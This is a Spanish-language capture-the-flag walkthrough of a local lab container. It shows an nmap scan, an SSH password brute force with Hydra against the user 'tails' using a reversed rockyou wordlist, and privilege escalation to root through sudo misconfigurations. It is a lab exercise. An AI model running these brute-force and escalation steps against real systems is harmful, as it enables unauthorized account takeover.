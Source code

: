 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh hedhehog.tar
```

![Pasted image 20250131113855](https://github.com/user-attachments/assets/4fe3d5f0-464b-4fdb-9b19-4d0f2b5507cc)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131113958](https://github.com/user-attachments/assets/4ece6712-2584-435b-9cef-e1e0ee99082a)

Nos metemos en la web:

![Pasted image 20250131114033](https://github.com/user-attachments/assets/93f8f640-8c53-4248-b61d-55606e2752b2)

Tenemos usuario tails.

Invertimos el diccionario ya que con **Hydra** tarda mucho:

```Bash
tac /usr/share/wordlists/rockyou.txt >> invertido.txt
```

![Pasted image 20250131151102](https://github.com/user-attachments/assets/6bc9ecc5-06d9-4ffa-a454-1bb370a9c70f)

Quitamos los espacios en blanco:

```Bash
sed -i 's/ //g' invertido.txt
```

![Pasted image 20250131153909](https://github.com/user-attachments/assets/dbf7552f-eee5-40d6-b68e-54915315d840)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l tails -P invertido.txt ssh://172.17.0.2
```

![Pasted image 20250131153842](https://github.com/user-attachments/assets/45d4ec3c-1498-4b29-a13d-2e09d42c8a92)

Nos conectamos con **SSH**:

```Bash
ssh tails@172.17.0.2
```

![Pasted image 20250131153704](https://github.com/user-attachments/assets/842703b1-f2e5-425a-8971-704541705cfb)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250131153722](https://github.com/user-attachments/assets/84dc0568-de16-41c8-a26e-5ab99d510fd9)

```Bash
sudo -u sonic /bin/bash
```

![Pasted image 20250131154316](https://github.com/user-attachments/assets/768340fc-93e5-4d63-b657-0d617fbf12f5)

```Bash
sudo -l
```

![Pasted image 20250131154330](https://github.com/user-attachments/assets/556c3982-535f-47eb-8eaf-576c24c84660)

```Bash
sudo su
```

![Pasted image 20250131154531](https://github.com/user-attachments/assets/d26f225a-918c-4d82-be5d-f6002e9c7119)

o también

```Bash
sudo -i
```

![Pasted image 20250131154413](https://github.com/user-attachments/assets/7f8a82d4-ac20-4ab8-adc8-b8a515623106)

```Bash
whoami
```

![Pasted image 20250131154558](https://github.com/user-attachments/assets/4dfda7ed-920f-4e35-82f4-f94d854f8066)
